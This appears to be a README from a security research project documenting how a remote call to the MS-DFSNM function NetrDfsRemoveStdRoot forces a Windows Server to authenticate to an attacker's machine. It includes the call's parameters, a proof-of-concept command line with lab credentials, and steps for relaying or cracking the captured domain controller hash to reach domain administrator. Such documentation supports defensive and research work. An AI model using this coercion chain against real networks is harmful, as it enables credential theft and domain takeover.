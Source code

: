 # MS-DFSNM - Remote call to NetrDfsRemoveStdRoot (opnum 13)

## Summary

+ **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

+ **Function name**: [`NetrDfsRemoveStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/e9da023d-554a-49bc-837a-69f22d59fd18)

+ **Function operation number**: `13`

+ **RPC Interfaces**:
   + Interface 1:
     - uuid=`4fc742e0-4a10-11cf-8273-00aa004ae673`
     - version=`3.0`
     - Accessible through:
       + SMB Named pipe: `\PIPE\netdfs`


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\netdfs` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\netdfs`. This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsRemoveStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/e9da023d-554a-49bc-837a-69f22d59fd18) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsRemoveStdRoot('192.168.2.51\x00', 'share\x00', 0)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
NET_API_STATUS NetrDfsRemoveStdRoot(
    [in, string] WCHAR* ServerName,
    [in, string] WCHAR* RootShare,
    [in] DWORD ApiFlags
);
```

+ **ServerName**: The pointer to a null-terminated Unicode string. This is the host name of the DFS root target to be removed.


+ **RootShare**: The pointer to a null-terminated Unicode DFS root target share name string. This is also the DFS namespace name. The share is not removed automatically when the method is successful; it MUST be removed explicitly, as needed.


+ **ApiFlags**: This parameter is reserved for future use and is ignored by the server.

## References

+ Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979


+ Documentation of function `NetrDfsRemoveStdRoot`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/e9da023d-554a-49bc-837a-69f22d59fd18


+ This call was pointed out by [@filip_dragovic](https://twitter.com/filip_dragovic/) on Jul 18, 2021: https://twitter.com/filip_dragovic/status/1538154721655103488
